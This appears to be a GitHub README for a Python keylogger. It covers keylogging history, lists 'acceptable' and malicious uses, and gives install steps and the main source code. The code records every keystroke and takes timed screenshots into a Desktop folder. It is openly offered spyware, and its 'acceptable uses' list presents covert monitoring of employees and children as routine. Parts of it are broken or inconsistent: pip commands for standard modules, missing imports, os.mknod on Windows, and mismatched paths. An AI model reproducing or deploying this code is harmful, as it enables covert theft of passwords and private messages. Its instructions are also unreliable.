 # Welcome Folks



## This is a basic Keylogger Programme

### About

Keyloggers first appeared on the scene in the late 80’s and early 90’s. One of the earliest keyloggers was writing by a man named Perry Kivolowitz. He posted his source code to net.unix-wizards, net.sources on November 17, 1983.  The program basically operated by locating character lists, or clists, as they were being built by the Unix kernel. <br/>
Keystroke logging, also known as _keylogging_, is simply tracking the keys that are struck on a keyboard. This can be done in multiple ways using a wide variety of hardware devices or software. The reason for its large threat to networks and their security is due to its covertness nature.  Most keyloggers show no signs of any intrusion within the system allowing for them to gain typed information without anyone having knowledge of its actions except for the user who installed it. With the proper keylogger installed on the correct machine a person could easily gain access to a company’s entire network infrastructure. In terms of system critical data or extremely privileged information this could cause problems for a vast amount of people very quickly.

### Applications
**Acceptable uses:**  <br/>
•	Parent monitoring child’s computer usage <br/>
•	Boss monitoring employee’s computer usage <br/>
•	Government retrieving information pertinent to a crime <br/>
<br/>
**Malicious uses:** <br/>
•	Cracking passwords <br/>
•	Gaining unauthorized information <br/>
•	Stealing credit card numbers <br/>
•	Reading sent emails or messages not intended for public viewing <br/>
•	Retrieving secret names <br/>
•	Stealing account numbers <br/>

### How to Use ?
First of all you need to install all the mentioned python libraries in your device (Here I am assuming that latest Python version is installed in your device).
<br/><b>Write the following commands in the cmd window:</b>

```
pip install mss
```

```
pip install pynput
```


```
pip install threading
```


```
pip install os
```

Once you are done with all these libraries, you can download the "Keylogger.py" script and open it in any of the Python IDE(` PyCharm, Jupyter Notebook, Spyder, IDLE..`)
<br/>
Now, when you Run the script it will ask for "A Time interval which you want to be there in between each interval" and once you give the input then the keyogger will start tracking.
<br/>
<br />
This Keylogger will make a new Directory on the Desktop named "Keylogger" where all the Screenshots and log file will be stored.

### How to Stop? 
In order to stop this Keylogger, you have to stop the python script. 


```python

count=0
keys=[]                  #List all the pressed keys


                                        
class IntervalTimer(Timer):         #Control the Time interval between each Screenshots
    def run(self):
        while not self.finished.wait(self.interval):
            self.function(*self.args, **self.kwargs)
            
            
def write_file(keys):                  #To write the keys to the Files
    with open("C:/Users /Desktop/Keylogger-master/log.txt","a") as f:
        for key in keys:
            k=str(key).replace("'","")
            if k.find("space")>0:     	 #Replace Key_Space with " " in the main file
                f.write(" ")
            if k.find("enter")>0:    	  #Replace Key_Enter with "\n or nextline"
                f.write("\n")
            elif k.find("Key") == -1:   
                f.write(k)
                  

class keylogger_main:
    
    def _build_logs(self):   		#To create the directory which contains all the data
        if not os.path.exists('C:/Users/ Desktop/Keylogger-master'):
            os.mkdir('C:/Users/ Desktop/Keylogger-master')
            os.mkdir('C:/Users/ Desktop/Keylogger-master/Screenshots')
            os.mknod('C:/Users /Desktop/Keylogger-master/log.txt')
    
    def _on_press(self,k):       	#This Function keeps track of pressed keys
        global keys, count
        #print("{0} pressed".format(k))
        keys.append(k)
        count+=1
    
        if count >=10:
            count=0
            write_file(keys)
            keys=[]   
    
    def _keylogger(self):            #Main Funciton to start the key tracker
        with Listener(on_press=self._on_press) as listener:
            listener.join()
            
    def _Screenshot(self):          	 #Main Function to start thr Screenshot tracker
        sct=mss()
        sct.shot(output='C:/Users/Desktop/Keylogger-master/Screenshots/{}.png'.format(time.time()))
    
    def run(self,interval):       		   #Main fucntion to start the keylogger
        
        self._build_logs()
        Thread(target=self._keylogger).start()   #This thread function is used to Run the Keys and Screenshots tracker parallely
        IntervalTimer(interval, self._Screenshot).start()
        
        
km=keylogger_main() 
interval=int(input("Enter the time interval (in sec.) between each Screenshot:"))
km.run(interval)

```
 
Get the complete code [Here](https://github.com/Aryan529/Keylogger) 


### Disclaimer
This undertaking is just for _Educational Purposes_ and the abuse of the data in this venture can result in criminal allegations brought against the people being referred to.<br/> 
I am in no way responsible for the misuse of the information.
